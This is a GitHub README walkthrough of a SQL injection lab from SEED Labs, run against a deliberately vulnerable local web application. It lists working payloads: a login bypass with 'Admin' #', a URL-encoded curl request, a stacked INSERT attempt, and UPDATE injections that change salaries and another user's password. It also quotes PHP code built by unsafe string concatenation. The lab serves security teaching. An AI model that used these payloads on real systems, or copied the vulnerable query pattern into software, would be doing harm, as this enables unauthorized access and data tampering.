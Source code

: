 # Sql-Injection
# Task 1: Log in MYSQL:

		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	
//Use such a SQL query:

		select * from credential where Name='Alice';
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%201.png)


# Task 2:

--> Task 2.1

  	.USERNAME: "Admin' #"
  
  	.PASSWORD: "xyz" (here is password is optional)

	//We will result in SQL Query

	 	SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2

  	1- Write Code on Terminator in Seed Lab:
	  
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	  
    2- Copy the HTML code.
	  
    3- Make a new file in location "file:///home/seed/Documents/temp.html"
	  
    4. Run this location on browser
    
![alt text](https://github.com/sohaib296/Sql-Injection/blob/main/task%202.2.png)


--> Task 2.3: inject statment to append a row to current database:
	
	  INSERT INTO credential (name,eid) VALUES('Sohaib', '17422');
	  
    After row inserted, go to browser and input as:
	  
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Sohaib','17422') #"
	  .PASSWORD: "" (blank field)
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%201.png)



# Task 3
Run this on browder "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php"

--> Task 3.1

	  1- Login as Username= 'Alice' && Password = xyz, 
	  2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  3- Update Phone Number as ', Salary=1000000 and save.
    
--> Task 3.2

	  1- Login as Username= 'Boby' #' and then open edit profile
	  2- Update Phone Number: ',Salary=0 and remaining unchanges
    
![alt text](https://github.com/sohaib296/Sql-Injection/blob/main/task%203.2.png)

	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
  
--> Task 3.3: We're login as Boby but change password of Alice

	 $conn = getDB();
	 // Don't do this, this is not safe against SQL injection attack
	 $sql="";
	 if($input_pwd!=''){
	 // In case password field is not empty.
	 $hashed_ = sha1($input_pwd);
	 //Update the password stored in the session.
	 $_SESSION['pwd']=$hashed_pwd;
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }else{
	 // if passowrd field is empty.
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }
	 $conn->query($sql);
   $conn->close();
	 header("Location: unsafe_home.php");
	 exit();
   ![alt text](https://github.com/sohaib296/Sql-Injection/blob/main/task%203.3.png)
